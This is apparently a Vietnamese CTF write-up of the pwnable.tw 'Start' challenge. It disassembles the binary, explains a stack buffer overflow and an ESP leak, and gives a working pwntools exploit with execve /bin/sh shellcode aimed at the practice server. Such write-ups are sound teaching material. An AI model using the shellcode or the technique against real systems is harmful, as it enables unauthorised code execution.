 ```yaml
---
layout: post
title:  Pwnable.tw
comments: true
---
```


## 0x00 Giới thiệu
Khoảng một tháng trở lại đây, tôi chuyên tâm hơn vào việc chơi pwn. Một phần là vì mảng pwn khó, phần còn lại là tôi nghĩ nó có thể giúp tôi kiếm được tiền :)) Vì là một người mới, những kiến thức mà tôi viết ở đây có thể chưa chính xác hoàn toàn. Rất mong các bạn đọc góp ý để tôi phát triển hơn nữa. 

[Pwnable.tw](https://pwnable.tw/) là một trang luyện tập mảng pwn khá nổi tiếng của Đài Loan. Theo tôi cảm nhận, thử thách ở đây khá khó cho người mới. Nếu các bạn không làm được thì cũng đừng lấy gì làm lạ. Tôi đã mất khoảng hơn 1 tuần để nghiền ngẫm challenge đầu tiên. 

## 0x01 Start
---

### I. Tổng quan
![](/images/Pwnable.tw/0x01%20Start/start.png)

Đề bài cho chúng ta duy nhất một file là "start". Việc đầu tiên tôi thường làm sẽ là kiểm tra xem file là 32 hay 64 bits. Để kiểm tra, tôi thường dùng `file`.
```shell
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
 Thông tin cho chúng ta biết được đây là một file 32 bits. Load chương trình vào IDA PRO 32, quan sát các hàm ở mục `Functions`, nhận thấy rằng chương trình chỉ xoay quanh hàm `_start`.  

### II. Phân tích 

```
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

Mã assembly của hàm `_start` rất dễ đọc, chúng ta sẽ đi phân tích nội dung từng đoạn code. 

Việc đầu tiên là đẩy thanh ghi `ESP` và offset của hàm `_exit` vào trong stack. Sau đó, gán giá trị của 4 thanh ghi `EAX, EBX, ECX, EDX = 0`. Tiếp theo là đẩy các giá trị `3A465443h, 20656874h, 20747261h, 74732073h, 2774654Ch` vào trong stack. 

Câu hỏi đặt ra ở đây là 5 con số trên là gì vậy? Rất đơn giản, nó chính là: 
- 3A465443h = ":FTC" 
- 20656874h = " eht"
- 20747261h = " tra"
- 74732073h = "ts s"
- 2774654Ch = "'teL"

Đoạn mã tiếp theo, chương trình gọi ra 2 system call là sys_write và sys_read

```
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
```

Thông tin system call 
- Đọc chuỗi từ địa chỉ ESP hiện tại 
- Độ dài: 0x14 bytes
- File descriptor: stdout

```
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
```

Thông tin system call 
- Đọc số byte: 0x3C 

Đoạn mã 

```
add     esp, 14h
retn
```
Tăng giá trị thanh `ESP` lên 0x14 đơn vị. `retn` gọi địa chỉ thanh ghi `ESP` đang giữ rồi cộng `ESP` lên 4 đơn vị.  

### III. Lỗ hổng

Chúng ta cùng nhìn qua cấu trúc của stack trước khi gọi 2 system call. 

![Alt text](/images/Pwnable.tw/0x01%20Start/image.png)

Giá trị của `ESP = 0xFFFFD124`, giá trị của thanh ESP ban đầu là `ESP = 0xFFFFD140`. Chú ý rằng, thường các challenge sẽ bật **Address Space Layout Randomization** nên giá trị thanh ghi `ESP` ban đầu luôn có giá trị ngẫu nhiên. (Đây là lý do vì sao mình không lấy `ESP = 0xFFFFD140` để khai thác lỗ hổng)

Như ta đã phân tích ở trên, system call read cho phép đọc 60 bytes vào stack. Nếu chúng đã nhập vào 20 bytes, thì từ địa chỉ `0xFFFFD124` đến `0xFFFFD134` sẽ được fill đủ. Giả sử chúng ta tiếp tục nhập vào, các giá trị tại các địa chỉ trên nó sẽ bị thay đổi. 

### IV. Hướng tấn công 

Công việc chúng ta cần thực hiện: 
1. Lấy được địa chỉ thanh ghi `ESP` ban đầu. 
2. Từ việc cho được giá trị thanh ghi `ESP` ban đầu, chúng ta sẽ đưa địa chỉ trả về của hàm là địa chỉ của shellcode. 

### Công việc 1
![Alt text](/images/Pwnable.tw/0x01%20Start/image-1.png)

Để lấy giá trị của thanh ghi `ESP` ban đầu rất đơn giản. Chúng ta nhập đủ 20 bytes để lấp đầy địa chỉ từ `0xFFFFD124` đến `0xFFFFD134`, tiếp tục ghi thêm 4 bytes `0x08048087` để chương trình có thể gọi system call read và write lần thứ 2. 

Bây giờ, giá trị của thanh ghi `ESP` sẽ là: `0xFFFFD124 + 0x14 + 0x4 = 0xFFFFD13C`. Chú ý, đây cũng là nơi chứa `ESP` ban đầu. 

Chỉ cần sử dụng `sys_write`, in ra 4 bytes đầu tiên sẽ lấy được địa chỉ `ESP` ban đầu 

```python
payload1 = b'x' * 0x14 + p32(0x08048087)
```

### Công việc 2

Khi đã có địa chỉ `ESP` ban đầu, việc của chúng ta là phải tính toán xem input bao nhiêu ký tự để chương trình có thể thực thi được shellcode. 

Gọi địa chỉ `ESP` ban đầu là `ESP = X`, giá trị hiện tại `ESP = X - 4`

![Alt text](/images/Pwnable.tw/0x01%20Start/image-2.png)

Sau khi `sys_read` được gọi, `ESP + 0x14`, nghĩa là `ESP` đứng ở `X + 16`. Ở `X + 16`, chúng ta chỉ cần gán cho nó giá trị là `X + 20`, nơi shellcode được viết. Hàm trả về sẽ là địa chỉ shellcode được bắt đầu. 

```python
payload2 = b'x' * 0x14 + p32(leaked_esp + 0x14) + shellcode
```

### V. Mã khai thác 
```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" 

payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
payload2 = b'x' * 0x14 + p32(esp_leaked + 0x14) + shellcode
r.send(payload2)

r.interactive()
```

### VI. Hướng dẫn
1. https://hackmd.io/@y198/ry6GrF3gi
2. https://blog.csdn.net/weixin_43483799/article/details/113844032 
